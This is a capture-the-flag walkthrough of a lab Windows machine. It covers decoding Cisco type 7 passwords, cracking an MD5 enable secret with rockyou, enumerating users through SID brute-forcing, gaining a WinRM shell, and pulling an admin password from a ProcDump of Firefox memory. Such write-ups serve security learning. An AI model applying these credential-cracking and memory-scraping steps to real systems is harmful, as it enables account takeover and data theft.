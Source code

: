 ![](./logo.png)

# USER

The box has exposed a `http` endpoint with a login page. On further inspection the page allows us to log on as a guest.

We are then redirected to a page with a support chat. On it is a link to a Cisco IOS config file. Via some searching it is found that the passwords present can be easily decrypted using this [page](http://www.ifm.net.nz/cookbooks/passwordcracker.html)

Meaning these:
```
[..]
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
[..]
```

Can be converted into these:
```
rout3r:$uperP@ssword
admin:Q4)sJu\Y8qz*A3?d
```

This is due to a trivially reverseable algorithm being used to 'encrypt' the passwords


```
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

Cracking the level 5 password involves running it through rockyou. The command below was used:

```
openssl passwd -1 -salt <SALT> -table -in <rockyou.txt> | grep <hash_substring>
```

The cracking of this password gives:

```
stealth1agent	$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

This can be used with the username `hazard` to log into the SMB share.

This user only allows us access to the `IPC$` share. It contains no usefull files.

However, access to the SMB share allows us to use `lookupsid.py` to brute force SID values to enumerate new users.

```
$ ./lookupsid.py hazard@10.10.10.149 

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

This provides us with 3 more users!

With trail and error, it can be seen that chase works with the `winrm` shell.

https://github.com/Hackplayers/evil-winrm


```
chase:Q4)sJu\Y8qz*A3?d
```

This lets us obtain a powershell on the box to grab the `user.txt`!

# ROOT

On the desktop there is a `todo.txt`.

```
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

Having a look at the process running we can see `firefox` is taking up a large amount of resources.


```
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName 
    407      31    17396      61224       1.72    320   1 firefox                          
    341      18    10036      37488       1.23   1136   1 firefox                          
    390      30    26352      58724      14.22   4008   1 firefox                      
   1241      68   105976     178564      26.02   5112   1 firefox                       
    358      26    16380      37636       1.14   6196   1 firefox  
```

I initially tried a `profile` way like `Chaos` but this didn't work. Further research implied I should look at processes memory. This can be achieved by [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump).

Running:

```
./procdump.exe -ma <PROCESS_ID>
```
s
Creates a dump file that then can be searched through like so:


```
Get-ChildItem -Path ./firefox.exe_190930_192158.dmp -Recurse -File | Select-String "admin"
```

`admin` was chosen as a string due to the assumption that the login page we encountered earlier was being hosted internally.


This then gives us this output!

```
firefox.exe_190930_192158.dmp:5410:��MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=+
```

We can see the `admin` password in the `GET` request:

```
login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ
```

This lets us login as the Administrator and grab the `root.txt`!